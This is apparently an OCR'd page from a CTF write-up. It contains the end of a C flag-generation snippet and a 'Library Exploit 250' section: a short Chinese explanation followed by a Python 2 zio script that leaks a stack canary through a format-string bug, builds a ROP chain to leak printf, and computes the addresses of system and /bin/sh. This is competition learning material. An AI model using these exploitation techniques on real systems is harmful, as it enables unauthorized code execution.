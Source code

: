 ```
    }
    unsigned char ans[SHA_DIGEST_LENGTH]; 
    SHA1_Final(ans, &c);
    printf("ISG{");
    printf("%02x", ans[0]);
    for (int i = 1; i < SHA_DIGEST_LENGTH; ++i)
        printf("-%02x", ans[i]); 
    printf("}\n");
    return 0; 
}

```

￼￼￼

### Library Exploit 250

在 register 功能中只能输入 15 字节长度来触发格式化字符串漏洞,且%字符数量有限,因此考虑 用格式化字符串漏洞泄露出 stack canary,并将某关键计数改大,然后再利用 query 功能中的栈 溢出来获取 shell。

```
#!/usr/bin/env python2
from zio import *

target = ('202.120.7.68', 23333)
io = zio(target, print_read=False, print_write=False) 

count_addr = 0x804b008

io.read_until('4. Quit\n') 
io.write('1\n')

payload = l32(count_addr + 3) + '%35$p%10$hn\n' 
io.write(payload)
io.read_until('0x')
canary = io.read(8).decode('hex')[::-1]
print '[+] canary : %s' % canary.encode('hex')
io.read_until(￼'4. Quit\n')

put_plt = 0x8048520 
printf_got = 0x804afc8 
read_plt = 0x80484d0 
junk = 'JJJJ'
popret = 0x8048c3f
pop3ret = 0x8048c3d
new_stack = 0x804bf30
leave_ret = 0x8048aa6


io.write('2\n')
payload = 'A' * 0x100 + canary + 'A' * 12
payload += l32(put_plt) + l32(popret) + l32(printf_got)
payload += l32(read_plt) + l32(pop3ret) + l32(0) + l32(new_stack) + l32(32)
payload += l32(popret) +  l32(new_stack) + l32(leave_ret)
payload += '\n'

io.write(payload) 
io.read_until(':\'(\n')
printf = l32(io.read(4))
print '[+] printf : %s' % hex(printf)
system = printf - 0x4d1f0 + 0x40100 
binsh = printf - 0x4d1f0 + 0x161304 
print '[+] system : %s' % hex(system) 
print '[+] binsh : %s' % hex(binsh)
```